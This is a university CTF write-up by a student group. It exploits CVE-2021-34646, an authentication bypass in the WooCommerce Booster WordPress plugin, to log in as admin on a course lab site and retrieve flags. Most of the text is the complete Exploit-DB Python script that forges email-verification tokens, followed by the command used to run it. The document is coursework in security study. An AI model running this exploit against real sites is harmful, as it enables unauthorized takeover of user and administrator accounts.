

# CTF Week 4

## Submitted Flags

- Challenge 1: flag{CVE-2021-34646}
- Challenge 2: flag{please don't bother me}

## Exploit context and approach

Through navigation of the website provided, we were able to gather this information and context:

### Information gathered

- Wordpress version: 5.8.1
- Wordpress plugin: WooCommerce @ 5.7.1 and WooCommerce Booster Plugin @ 5.4.3
- Users: Found `admin` and `Orval Sanford`

**Vulnerability chosen:** Authentication Bypass
**CVE:** CVE-2021-34646, with CVSS Score: 9.8
**Exploit Database entry:** https://www.exploit-db.com/exploits/50299

### Process:

```py
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()


# We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
for i in range(3): 
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
            
```

```bash
# saved the python script as 50299.py
# found admin id from http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/ #image 1

python 50299.py http://ctf-fsi.fe.up.pt:5001 1
```

The user ID was found analysing the Raw Data from http://ctf-fsi.fe.up.pt:5001/wp-json
  
and then going further

  


The exploit script requires the `url` and `userID` to be executed which are both known from the recognition phase. The userID 1 was chosen because it typically represents the admin one.

Executing the script will provide multiple entries for email verification, and one of them should provide us authentication to the website.


  

Now that we're logged in if we visit http://ctf-fsi.fe.up.pt:5001/wp-admin/post.php?post=11&action=edit, we found on the posts tab a message containing a message with some sensitive information, where we did find our **Flag**.

  

<br>

# Group 7, 03/10/2022
 
* Afonso Jorge Farroco Martins, up202005900@fe.up.pt
* Eduardo Filipe Leite da Silva, up202005283@fe.up.pt
* José Diogo Pinto, up202003529@fe.up.pt